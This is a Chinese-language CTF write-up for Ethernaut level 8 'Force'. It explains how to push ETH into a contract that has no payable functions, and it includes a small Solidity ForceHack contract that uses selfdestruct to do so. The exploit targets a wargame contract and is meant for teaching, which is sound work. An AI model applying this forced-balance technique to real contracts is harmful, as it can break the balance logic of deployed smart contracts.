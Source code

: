 ```yaml
---
title: Ethernaut 闯关笔记 第8关 Force
date: 2023-12-13 00:29:46
tags:
---
```


# 原始代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

# 攻击思路

因为该合约没有任何 `payable` 函数，也没有 `receive()` 函数，因此不能直接发送交易。

强制调用合约代码，可以使用另一个合约的 `selfdestruct()` 关键字。

每一个合约都可以通过 `selfdestruct(address)` 关键字实现自毁，并将剩余的 ETH 余额发送到指定的地址。

注意，ERC-20 代币余额并不会被发送，自毁后这些代币将会永久丢失。

# 攻击代码

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.20;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}

contract ForceHack{

    function destroy(address forceAddress) public {
        selfdestruct(payable(forceAddress));
    }

    receive() payable external{}
}
```

# 冷知识

`selfdestruct` 已被标记为 `deprecated` ，在 EIP-4758 中被废除并将其 opcode 修改为 `SENDALL` 。

`SENDALL` 只发送全部的 ETH 余额，但不会删除合约的 bytecode 。